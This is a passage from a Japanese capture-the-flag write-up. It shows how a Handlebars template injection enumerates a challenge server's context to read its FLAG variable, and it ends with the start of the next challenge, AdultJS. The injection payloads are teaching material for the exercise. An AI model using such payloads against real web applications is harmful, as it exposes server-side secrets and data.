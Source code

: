`{% raw %}{{#each .}}{{@key}}<br>{{/each}}{% endraw %}` で以下のような出力が得られました。

```
settings
FLAG
apple
_locals
cache
```

`FLAG` もちゃんと含まれているようです。

`#each` で囲まれている中で `.` を使えば現在参照されている値を得られますから、`{% raw %}{{#each .}}{{.}}<br>{{/each}}{% endraw %}` を試してみましょう。

```
TypeError: /app/views/temp/…/9475fa47128c9ad6.html: Cannot convert object to primitive value
    at Object.escapeExpression (/app/node_modules/handlebars/dist/cjs/handlebars/utils.js:91:17)
    at eval (eval at createFunctionContext (/app/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:262:23), <anonymous>:1:20)
    at prog (/app/node_modules/handlebars/dist/cjs/handlebars/runtime.js:268:12)
    at execIteration (/app/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:51:19)
    at /app/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:83:15
    at Array.forEach (<anonymous>)
    at /app/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:78:32
    at Object.<anonymous> (/app/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:91:11)
    at Object.wrapper (/app/node_modules/handlebars/dist/cjs/handlebars/internal/wrapHelper.js:15:19)
    at Object.eval [as main] (eval at createFunctionContext (/app/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:262:23), <anonymous>:8:52)
```

`Cannot convert object to primitive value` と怒られてしまいました。文字列化できないオブジェクトを参照してしまったようなので、`toString` という文字列化時に呼び出されるメソッドを持っているかどうかを確認するようにしましょう。

`{% raw %}{{#each .}}{{#if (lookup . "toString")}}{{.}}<br>{{/if}}{{/each}}{% endraw %}` で以下のような出力が返ってきました。

```
[object Object]
Defenit{w3bd4v_0v3r_h7tp_n71m_0v3r_Sm8}
mint
```

フラグが得られました。

```
Defenit{w3bd4v_0v3r_h7tp_n71m_0v3r_Sm8}
```

## [Web 810] AdultJS (5 solves)
> Are you over 18?  
> This challenge is for adults :D
> 
> ヒント
> - Adult-JS is Served by Windows
> - UNC Path
> 
> Author: posix
> 
> 添付ファイル: adult-js.zip
